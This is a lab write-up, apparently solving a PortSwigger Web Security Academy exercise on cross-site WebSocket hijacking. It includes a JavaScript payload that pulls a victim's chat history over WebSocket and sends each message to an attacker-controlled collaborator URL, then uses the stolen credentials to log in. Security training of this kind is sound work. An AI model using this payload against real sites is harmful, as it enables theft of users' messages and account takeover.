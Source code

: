 # Cross-site WebSocket hijacking

## Description

[This online shop](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab) has a live chat feature implemented using WebSockets. 

## Reproduction and proof of concept

1. Click "Live chat" and send a chat message.
2. Reload the page.
3. In Burp Proxy, in the WebSockets history tab, observe that the "READY" command retrieves past chat messages from the server.
4. In Burp Proxy, in the HTTP history tab, find the WebSocket handshake request. Observe that the request has no CSRF tokens.
5. Right-click on the handshake request and select "Copy URL".
6. In your browser, go to the exploit server and paste the following template into the "Body" section:

```text
<script>
  var ws = new WebSocket('wss://websocket-url');
  ws.onopen = function() {
    ws.send("READY");
  };
  ws.onmessage = function(event) {
    fetch('https://collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
  };
</script>
```

7. Replace ``websocket-url`` with the URL from the WebSocket handshake (``lab-id.web-security-academy.net/chat``). Make sure you change the protocol from ``https://`` to ``wss://``. Replace ``collaborator-url`` with a payload generated by Burp Collaborator Client.
8. Click "View exploit".
9. Poll for interactions using Burp Collaborator client. Verify that the attack has successfully retrieved your chat history and exfiltrated it via Burp Collaborator. For every message in the chat, Burp Collaborator has received an HTTP request. The request body contains the full contents of the chat message in JSON format. Note that these messages may not be received in the correct order.
10. Go back to the exploit server and deliver the exploit to the victim.
11. Poll for interactions using Burp Collaborator client again. Observe that you've received more HTTP interactions containing the victim's chat history. Examine the messages and notice that one of them contains the victim's username and password.
12. Use the exfiltrated credentials to log in to the victim user's account.

## Exploitability

An attacker will need to use the exploit server to host an HTML/JavaScript payload that uses a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history, then use this to gain access to their account. 
